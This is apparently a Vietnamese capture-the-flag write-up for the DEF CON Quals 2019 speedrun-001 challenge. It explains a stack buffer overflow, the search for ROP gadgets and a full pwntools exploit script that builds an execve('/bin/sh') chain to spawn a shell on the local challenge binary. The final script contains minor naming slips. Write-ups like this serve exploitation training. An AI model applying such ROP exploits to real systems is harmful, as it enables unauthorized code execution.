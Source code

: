 ### Defcon Quals 2019 Speedrun1
* Check security của binary ta thấy được NX(Non-eXecute) đang được bật, vậy nên việc thực thi trên stack là không thể.
```
 ❯ checksec speedrun-001
[*] '/mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/speedrun-001'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
 * Chạy và thấy qua thì chương trình này cho phép nhập vào một chuỗi đầu vào sau đó in ra màn hình dòng chữ 'Alas, ...' 
```
Hello brave new challenger
Any last words?
abcae
This will be the last thing that you say: abcae

Alas, you had no luck today.
```

* Mở bằng IDA và tím đến hàm có chữa các chuỗi được in ra trên màn hình:
```
__int64 sub_400B60()
{
  int v0; // edx
  int v1; // ecx
  int v2; // r8d
  int v3; // r9d
  char buf[1024]; // [rsp+0h] [rbp-400h] BYREF

  sub_410390("Any last words?");
  sub_4498A0(0, buf, 0x7D0uLL);
  return sub_40F710(
           (unsigned int)"This will be the last thing that you say: %s\n",
           (unsigned int)buf,
           v0,
           v1,
           v2,
           v3,
           buf[0]);
}
```

* Có thể thấy được `sub_4498A0` thực hiện việc scan đầu vào, ở trong hàm này, nó đang cố sử dụng syscall với đối số rax = 0 ứng với sys_read() nhằm để đọc dữ liệu đầu vào. Có một điều có thể khai thác ở đây là dữ liệu đọc vào là 2000 trong khi kích thước của buf chỉ có 1024, vậy nên ta có thể overwrite để tạo một syscall và lấy được shell bằng ROP chain (gồm các chuỗi các câu lệnh có sẵn trong chương trình kết thúc bằng ret, ghép lại để tạo ra các tác vụ mong muốn)
* Mục tiêu ở đây là cần thực hiện câu lệnh sys_exec('/bin/sh', 0, 0), tra trong bảng syscall thì ta thấy được rằng rax = 59 ứng với sys_exec, rdi = ''/bin/sh', rsi=0 , rdx=0. Ta đã có được các đối số truyền vào, việc bây giờ ta cần tìm các gadget chứa các thanh ghi mà có thể ghi vào được, ở đây là các lệnh `pop rax ; ret`, ...
```
 ❯ ROPgadget --binary speedrun-001 | grep "pop rax ; ret"
0x0000000000415662 : add ch, al ; pop rax ; ret
0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
0x0000000000415664 : pop rax ; ret
0x000000000048cccb : pop rax ; ret 0x22
0x00000000004a9323 : pop rax ; retf
0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret

 ❯ ROPgadget --binary speedrun-001 | grep "pop rdi ; ret"
0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
0x000000000042378b : fsubp st(0) ; pop rdi ; ret
0x0000000000400686 : pop rdi ; ret
                                                             
 ❯ ROPgadget --binary speedrun-001 | grep "pop rsi ; ret"
0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
0x000000000044be39 : pop rdx ; pop rsi ; ret
0x00000000004101f3 : pop rsi ; ret
                                                                
 ❯ ROPgadget --binary speedrun-001 | grep "pop rdx ; ret"
0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
0x000000000044be16 : pop rdx ; ret
0x000000000045fe71 : pop rdx ; retf
```
```
# Địa chỉ của các gadget
0x0000000000415664 : pop rax ; ret
0x0000000000400686 : pop rdi ; ret
0x00000000004101f3 : pop rsi ; ret
0x000000000044be16 : pop rdx ; ret
```
* Điều cần làm tiếp theo là tìm một nơi để có thể ghi được dữ liệu vào, cụ thể ở đây là ghi '/bin/sh' vào. Mở gdb sau đó dùng `vmmap` để xem các vùng nhớ
```
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x00000000004b6000 0x0000000000000000 r-x /mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/speedrun-001
0x00000000006b6000 0x00000000006bc000 0x00000000000b6000 rw- /mnt/c/Users/levan/OneDrive/Documents/CTF/NightMare/speedrun-001
0x00000000006bc000 0x00000000006e0000 0x0000000000000000 rw- [heap]
0x00007ffff7ff9000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffdd000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
```
* Ta có thể ghi vào vùng 0x6b6000, để chắc chắn rằng ta không ghi đè lên thứ gì khác:
```
gef➤  x/10g 0x6b6000
0x6b6000:       0x0     0x0
0x6b6010:       0x0     0x0
0x6b6020:       0x0     0x0
0x6b6030:       0x0     0x0
0x6b6040:       0x0     0x0
```
* Không có gì ở đây cả, cho nên có thể ghi thoải mái, tiếp theo cần tìm một gadget mà cho phép chúng ta ghi dữ liệu vào một địa chỉ trên vùng nhớ
* Tìm ra được lệnh này cho phép ghi giá trị của rdx vào địa chỉ của rax đang trỏ tới
```
0x000000000048d251 : mov qword ptr [rax], rdx ; ret
```
* Cuối cùng là tìm vị trí của syscall trong chương trình
```
0x000000000040129c : syscall
```
* Các bước chuẩn bị đã xong, bây giờ bắt đầu xây dựng ROP chain cho việc lấy shell.
```
# Khởi tạo
raxAddr = 0x0000000000415664
rdiAddr = 0x0000000000400686
rsiAddr = 0x00000000004101f3
rdxAddr = 0x000000000044be16

writeGadget = 0x000000000048d251
sysAddr = 0x000000000040129c
```
* Đầu tiên là cần phải ghi '/bin/sh' vào địa chỉ 0x6b6000 để tí dùng, ta sẽ có chuỗi rop như sau:

```
# pop rax, 0x6b6000
# pop rdx, 0x2f62696e2f736800
# mov qword ptr [rax], rdx

# Chuỗi ROP
rop = b''
rop += p64(raxAddr) + p64(0x6b6000)
rop += p64(rdxAddr) + b'/bin/sh\x00'
rop += p64(writeGadget)
```
* Như vậy ta đã ghi chuỗi vào đc địa chỉ 0x6b6000, tiếp theo tạo syscall với các đối số như phía trên đã mô tả để chạy sys_exec lấy shell
```
# pop rax, 0x3b
# pop rdi, 0x6b6000
# pop rsi, 0x0
# pop rdx, 0x0
# syscall

# Chuỗi ROP
rop += popRax + p64(0x3b)
rop += popRdi + p64(0x6b6000)
rop += popRsi + p64(0)
rop += popRdx + p64(0)
```

* Đặt breakpoint và biết đc rằng cần 1032 byte để ghi đè lên được địa chỉ trả về, sau đây là code exploit đầy đủ
```
from pwn import *
p = process('./speedrun-001')

# gdbscript='''
# b *0x400bad
# '''
# gdb.attach(p, gdbscript=gdbscript)

# Khoi tao ROP Gadget
raxAddr = p64(0x0000000000415664)
rdiAddr = p64(0x0000000000400686)
rsiAddr = p64(0x00000000004101f3)
rdxAddr = p64(0x000000000044be16)

# mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x000000000048d251)

# syscall gadget
sysAddr = p64(0x000000000040129c)

# Ghi /bin/sh vao 0x6b6000
'''
pop rax, 0x6b6000
pop rdx, 0x2f62696e2f736800
mov qword ptr [rax], rdx
'''

rop = b''
rop += raxAddr
rop += p64(0x6b6000)
rop += rdxAddr
rop += b'/bin/sh\x00'
rop += writeGadget

'''
Tiep tuc tao ROP Chain de ghi vao 4 thanh ghi, tao syscall
pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
pop rdx, 0x0

syscall
'''

rop += raxAddr + p64(0x3b)
rop += rdiAddr + p64(0x6b6000)
rop += rsiAddr + p64(0)
rop += rdxAddr + p64(0)

rop += syscall

payload = b'a'*1032 + rop

p.sendline(payload)
p.interactive()
```
